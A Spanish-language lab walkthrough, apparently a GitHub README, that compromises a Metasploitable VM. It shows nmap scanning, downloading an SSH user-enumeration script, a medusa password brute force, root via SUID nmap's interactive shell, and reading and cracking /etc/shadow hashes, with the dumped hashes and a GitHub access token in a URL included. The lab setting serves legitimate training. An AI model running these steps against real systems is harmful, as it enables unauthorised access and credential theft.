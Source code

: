 # METAESPLOITABLE 1
## METODO 1
descubrimiento de la red

```
ifconfig
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_005024879.png)

>red: 192.168.30.0/24

descubrimiento de la ip del metasploitable

```
nmap -sn 192.168.30.0/24
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_010415201.png)

>Metasploitable: 192.168.30.130/24

identificamos los servicios y versiones que corren en todos los puertos

```
nmap -sV 192.168.30.130 -p-
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_012113513.png)

>22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

buscamos exploits relacionados a ese servicio

```
nmap -sV -p22 192.168.30.130 -oA results.txt
ls results.txt.*
searchsploit -x --nmap results.txt.xml
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_013715856.png)

>OpenSSH 2.3 < 7.7 - Username Enumeration 

buscamos un exploit para esa vulnerabilidad en la red:
[ssh-enum.py](https://github.com/rberrospit/UNI-CBN04/blob/main/ssh-enum.py)

recuperamos el recurso

```
wget https://raw.githubusercontent.com/rberrospit/UNI-CBN04/refs/heads/main/ssh-enum.py?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA
cp ssh-enum.py\?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA ssh-enum.py
rm ssh-enum.py\?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA 
```

creamos un entorno virtual para la correcta ejecucion del ssh-enum.py

```
python3 -m venv venv
source venv/bin/activate
ip install paramiko==2.11.0
```

usamos ssh-enum.py y guardamos todo en usuarios.txt
```
python ssh-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.30.130 > usuarios.txt
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_084635563.png)

filtramos solo nombre de usuario de usuarios.txt

```
grep "found\!" usuarios.txt > logs.txt
awk '{print $2}' logs.txt > users.txt 
rm usuarios.txt 
rm logs.txt
```

guardamos en ssh-user.txt el usuario al cual hallaremos su password usando ataque de diccionario

```
echo "user" > ssh-user.txt
```

buscamos un diccionario en la red:
[unix_users.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/unix_users.txt)

recuperamos el recurso

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/data/wordlists/unix_users.txt 
```

ataque de diccionario

```
medusa -U ssh-user.txt -P unix_users.txt -h 192.168.30.130 -M ssh
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_090558717.png)

>usuario: user

>password: user

hacemos la conexion ssh con el metasploitable

```
ssh -o HostKeyAlgorithms=+ssh-rsa user@192.168.30.130
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_090929626.png)

escalamos privilegios

```
find / -perm -4000 -type f 2>/dev/null
nmap --interactive
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_100643722.png)


```
!sh
cat /etc/passwd
cat /etc/shadow
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_100826936.png)

lista de todos los usuarios

```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
```

contraseñas crackeadas usando john

```
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_125011621.png)

## METODO 2

```
msfconsole
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_112139906.png)

```
use 75
set RHOSTS 192.168.30.130
set USER_FILE ./userssh.txt
set PASS_FILE ./unix_users.txt
run
```
>192.168.30.130:22 - Success: 'user:user' 'uid=1001(user) gid=1001(user) groups=1001(user) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_114655729.png)
